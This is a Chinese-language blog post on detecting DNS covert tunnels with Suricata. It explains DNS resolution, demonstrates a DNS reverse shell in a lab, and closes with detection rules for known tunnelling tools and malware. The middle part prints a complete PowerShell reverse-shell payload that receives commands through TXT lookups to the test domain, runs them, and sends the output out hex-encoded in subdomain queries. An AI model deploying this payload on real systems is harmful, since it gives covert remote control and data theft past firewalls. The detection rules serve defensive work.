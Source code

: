 Title: NIDS（suricata） 中的 DNS隐蔽隧道检测
Date: 2019-07-08 20:20
Modified: 2019-07-08 20:20
Category: 安全
Tags: nids
Slug: M5
Authors: nJcx
Summary: NIDS 中的 DNS隐蔽隧道检测~


#### DNS介绍

![icmp](../images/tcpip.gif)

我们先简单介绍一下 DNS协议，DNS协议是一个应用层协议，用来将域名转换为IP地址（也可以将IP地址转换为相应的域名地址），类似一个分布式数据库，数据通过udp传输,IP报头中的协议字段值为17.

DNS协议报文格式

![dns](../images/dns-protocol-format.png)

通过wireshark 抓到的包：

![dns](../images/dnswireshark.png)

由于关于dns报文介绍太长，参考下面url 

[DNS协议详解及报文格式分析](https://www.cnblogs.com/davidwang456/articles/10660051.html)


![dns](../images/dnsq.jpeg)

关于DNS请求的方式如图，
具体可描述如下： 

```bash

	1. 主机先向本地域名服务器进行递归查询 
	
	2. 本地域名服务器采用迭代查询，向一个根域名服务器进行查询 
	
	3. 根域名服务器告诉本地域名服务器，下一次应该查询的顶级域名服务器的IP地址 
	
	4. 本地域名服务器向顶级域名服务器进行查询 
	
	5. 顶级域名服务器告诉本地域名服务器，下一步查询权限服务器的IP地址 
	 
	6. 本地域名服务器向权威服务器进行查询 
	
	7. 权限服务器告诉本地域名服务器所查询的主机的IP地址 
	
	8. 本地域名服务器最后把查询结果告诉主机 

```

![dns](../images/dnstun.jpeg)


如果在企业内网，那么黑客的攻击机器，就是所谓的权威服务器

```bash

	第一步: 受控机向内部dns服务器发送一个查询NKNFjklKLuJNVIUM.ml.org的请求
	
	第二步：内部dns服务器通过防火墙向根dns服务器发出查询请求
	
	第三步：经过大量迭代后，DNS请求到达NKNFjklKLuJNVIUM.ml.org的权威DNS服务器（黑客所控制）
	
	第四步：受控机请求查询的响应通过防火墙返回到内部DNS服务器
	
	第五步：内部DNS服务器将响应结果返回给受控机
```


上面的流程展示了一个受控机在连接外部网络时dns解析的一个过程。由于防火墙并没有对dns协议做任何处理，所以我们可以通过这种方式来穿透防火墙。

这里很多人会有一个疑问，关于dns 请求查询NKNFjklKLuJNVIUMvKL.ml.org 是怎么到达黑客所控制的权威DNS服务器的？

请求一个域名，比如NKNFjklKLuJNVIUMvKL.ml.org ,本地DNS服务器上没有 NKNFjklKLuJNVIUMvKL.ml.org，那么它将向root，也就是根域名服务器请求，看看根知道不, root一看是.org的域名，就交 给.org域名服务器进行解析，.org的域名服务器一看是.ml.org那么就会去找.ml.org的域名服务器 (ns1.myhostadmin.net),看看它有没有这条记录，.ml.org的域名服务器上一看是.ml.org，如果它有这 条A记录，那么就会返回NKNFjklKLuJNVIUMvKL.ml.org 的记录。

但是，如果没有，你可以再在ml.org的域名服务器上设定一个NS 类型的记录，如：ml.org NS 111.222.333.444(通常这里不让设置为地址，你可以先在DNS服务器上添加一条A记录，如ns.ml.org A 111.222.333.444，再添加NS记录：ml.org NS ns.xxx.org)，这里指定一个公网服务器，就是黑客所控制的权威DNS服务器。


#### 测试


我们测试一下使用dns反弹shell，用于测试的域名： test.njcx.bid

该域名的dns服务器位于  ns1.njcx.bid（公网ip：111.222.333.444）


受控机Windows7 ：  172.16.42.134

控制机 CentOS7：  111.222.333.444

我们用到的工具
[DNS-Shell](https://github.com/sensepost/DNS-Shell)，我们在 CentOS7 上面执行  python DNS-shell.py -l -r test.njcx.bid ，接收由受控机过来的shell，执行后会生成一个 powershell的payload,保存为 ps1 Windows执行即可收到shell

```bash
$url = "test.njcx.bid";
function execDNS($cmd) {
$c = iex $cmd 2>&1 | Out-String;
$u = [system.Text.Encoding]::UTF8.GetBytes($c);
$string = [System.BitConverter]::ToString($u);
$string = $string -replace '-','';
$len = $string.Length;
$split = 50;
$repeat=[Math]::Floor($len/$split);
$remainder=$len%$split;
if($remainder){ $repeatr = $repeat+1};
$rnd = Get-Random;$ur = $rnd.toString()+".CMDC"+$repeatr.ToString()+"."+$url;
$q = nslookup -querytype=A $ur;
for($i=0;$i-lt$repeat;$i++){
    $str = $string.Substring($i*$Split,$Split);
    $rnd = Get-Random;$ur1 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur1;
};
if($remainder){
    $str = $string.Substring($len-$remainder);
    $i = $i +1
    $rnd = Get-Random;$ur2 = $rnd.toString()+".CMD"+$i.ToString()+"."+$str+"."+$url;
    $q = nslookup -querytype=A $ur2;
};
$rnd=Get-Random;$s=$rnd.ToString()+".END."+$url;$q = nslookup -querytype=A $s;
};
while (1){
   $c = Get-Random;
   Start-Sleep -s 3
   $u=$c.ToString()+"."+$url;$txt = nslookup -querytype=TXT $u | Out-String
   $txt = $txt.split("`n") | %{$_.split('"')[1]} | Out-String
   if ($txt -match 'NoCMD'){continue}
   elseif ($txt -match 'exit'){Exit}
   else{execDNS($txt)}
}   

```

shell 如下，

![dnsshell](../images/dnsshell.png)

我在被控机上抓包，如图，可以看出受控机器一直TXT请求 CentOS 控制机

![dnsshell](../images/WechatIMG25.jpeg)

![dnsshell](../images/WechatIMG26.jpeg)

可以看出我们的payload是 放到TXT字段里面，由CentOS 控制机响应给客户端的

![dnsshell](../images/WechatIMG21.jpeg)


然后，数据都分段放到子域名里面，分多次，再次用请求的方式，发送到我们的控制机器上了

![dnsshell](../images/WechatIMG23.jpeg)

#### 检测


我们可以看出一些特征 ：

```bash
	
	1， 请求的Type一般都是TXT（为了返回的时候能够加入更多的信息）。
	2， payload部分一般都会编码（可能为base64、2进制或16进制）后放到子域名里面，而且多变，不一致
	3， DNS发生频率很高，短时间为了发送大量数据，会产生大量请求
```

	
比如，DNS  TXT请求频率过高，就报警，例子如下

```bash
alert udp any any -> any 53 (msg:"High TXT requests - Potential DNS Tunneling"; content:"|01 00|"; offset:2; within :4; content:"|00 00 10 00 01|"; offset:12; within:255; threshold: type threshold, track by_src, count 10, seconds 5; sid: 5700002; rev: 1;)
```	
	
下面，收集了很多知名DNS利用工具的检测规则。

```bash
alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"APP-DETECT iodine dns tunneling handshake server ACK"; flow:to_client; byte_test:1,&,0x80,2; content:"|00 01 00 01 00|"; depth:5; offset:4; content:"v"; within:1; distance:4; content:"VACK"; within:200; fast_pattern; metadata:service dns; reference:url,code.kryo.se/iodine/README.html; classtype:policy-violation; sid:27046; rev:3;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling up attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"-0"; distance:6; content:"id-"; within:3; distance:1; fast_pattern; content:"up"; within:8; detection_filter:track by_src, count 18, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27540; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT OzymanDNS dns tunneling down attempt"; flow:to_server,no_stream; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"id-"; distance:6; fast_pattern; content:"down"; within:10; distance:2; detection_filter:track by_dst, count 8, seconds 1; metadata:impact_flag red, service dns; reference:url,dankaminsky.com/2004/07/29/51/; classtype:policy-violation; sid:27541; rev:4;)

alert udp $HOME_NET any -> any 53 (msg:"APP-DETECT Your-Freedom DNS tunneling query attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34496; rev:1;)

alert udp $EXTERNAL_NET 53 -> any any (msg:"APP-DETECT Your-Freedom DNS tunneling query response attempt"; flow:to_client; byte_test:1,!&,0x01,2; content:"|03|s"; nocase; content:"|03|1yf|02|de|00|"; distance:2; nocase; metadata:service dns; reference:url,your-freedom.net; classtype:misc-activity; sid:34497; rev:1;)

alert udp $HOME_NET any -> any 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server; byte_test:1,!&,0xF8,2; content:"|00 01 00 00 00 00 00 00 1A|"; depth:9; offset:4; content:"|1A|"; within:1; distance:26; content:"|02|"; within:2; distance:26; metadata:service dns; classtype:policy-violation; sid:25983; rev:2;)

alert udp $EXTERNAL_NET 53 -> $HOME_NET any (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_client,no_stream; content:"|00 01 00 01 00 00 00 00|"; depth:8; offset:4; content:"|00 07 06|(){}[]"; fast_pattern; content:"|00 0A 00 01|"; within:4; distance:-17; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37891; rev:2;)

alert udp $HOME_NET any -> $EXTERNAL_NET 53 (msg:"INDICATOR-OBFUSCATION DNS tunneling attempt"; flow:to_server,no_stream; content:"|00 01 00 00 00 00 00 00|"; depth:8; offset:4; isdataat:80,relative; content:"|00 0A 00 01|"; within:15; distance:80; fast_pattern; detection_filter:track by_src, count 25, seconds 1; metadata:service dns; classtype:policy-violation; sid:37892; rev:2;)

sid:2100208 (Tunneling IP over DNS with NSTX)
alert udp any any -> any 53 (msg:"GPL POLICY MISC Tunneling IP over DNS with NSTX"; byte_test: 1,>,32,12; content: "|00 10 00 01|"; offset: 12; rawbytes; threshold: type threshold, track by_src, count 50, seconds 60; reference:url,nstx.dereference.de/nstx/; reference:url,slashdot.org/articles/00/09/10/2230242.shtml; classtype:policy-violation; sid:2100208; rev:3; metadata:created_at 2010_09_23, updated_at 2010_09_23;)

sid:2024504 (ET TROJAN ISMAgent)
alert udp $HOME_NET any -> any 53 (msg:"ET TROJAN ISMAgent DNS Tunneling (microsoft-publisher . com)"; content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10; offset:2; content:"|13|microsoft-publisher|03|com|00|"; nocase; distance:0; fast_pattern; threshold:type limit, track by_src, count 1, seconds 60; metadata: former_category TROJAN; reference:md5,a70a08a1e17b820c7dc8ee1247d6bfa2; reference:url,researchcenter.paloaltonetworks.com/2017/07/unit42-oilrig-uses-ismdoor-variant-possibly-linked-greenbug-threat-group/; classtype:trojan-activity; sid:2024504; rev:3; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_07_28, malware_family Ismdoor, performance_impact Moderate, updated_at 2017_07_31;)

sid:2025072 (ET TROJAN Patchwork)
alert dns $HOME_NET any -> any any (msg:"ET TROJAN Patchwork DNS Tunneling (nsn1.winodwsupdates .me)"; dns_query; content:".nsn1.winodwsupdates.me"; isdataat:!1,relative; metadata: former_category TROJAN; reference:url,docs.google.com/document/d/1oYX3uN6KxIX_StzTH0s0yFNNoHDnV8VgmVqU5WoeErc; classtype:trojan-activity; sid:2025072; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_11_27, malware_family Patchwork, performance_impact Low, updated_at 2017_11_27;)

sid:2025894 (ET TROJAN OilRig)
alert dns $HOME_NET any -> any 53 (msg:"ET TROJAN OilRig QUADAGENT DNS Tunneling"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|04|mail|06|"; distance:0; nocase; pcre:"/^\d{6}/Ri"; content:"|07|cpuproc|03|com|00|"; fast_pattern; distance:0; within:13; nocase; threshold: type limit, count 1, seconds 60, track by_src; metadata: former_category TROJAN; reference:md5,d51c2ffce844d42bab2f2c3131e3dbd4; reference:url,researchcenter.paloaltonetworks.com/2018/07/unit42-oilrig-targets-technology-service-provider-government-agency-quadagent/; classtype:trojan-activity; sid:2025894; rev:2; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2018_07_25, malware_family QuadAgent, performance_impact Low, updated_at 2018_07_25;)

```